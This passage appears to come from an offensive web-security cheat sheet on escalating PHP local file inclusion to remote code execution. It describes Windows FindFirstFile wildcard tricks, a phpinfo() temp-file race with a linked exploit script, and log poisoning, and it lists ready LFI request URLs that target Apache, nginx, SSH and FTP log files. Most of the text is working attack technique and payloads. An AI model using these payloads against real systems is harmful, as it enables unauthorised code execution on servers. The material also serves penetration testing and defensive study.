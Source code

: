 ## LFI to RCE via upload (FindFirstFile)

:warning: Only works on Windows

`FindFirstFile` allows using masks (`<<` as `*` and `>` as `?`) in LFI paths on Windows. A mask is essentially a search pattern that can include wildcard characters, allowing users or developers to search for files or directories based on partial names or types. In the context of FindFirstFile, masks are used to filter and match the names of files or directories.

* `*`/`<<` : Represents any sequence of characters.
* `?`/`>` : Represents any single character.

Upload a file, it should be stored in the temp folder `C:\Windows\Temp\` with a generated name like `php[A-F0-9]{4}.tmp`.
Then either bruteforce the 65536 filenames or use a wildcard character like: `http://site/vuln.php?inc=c:\windows\temp\php<<`


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script [phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf


## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```


### RCE via SSH
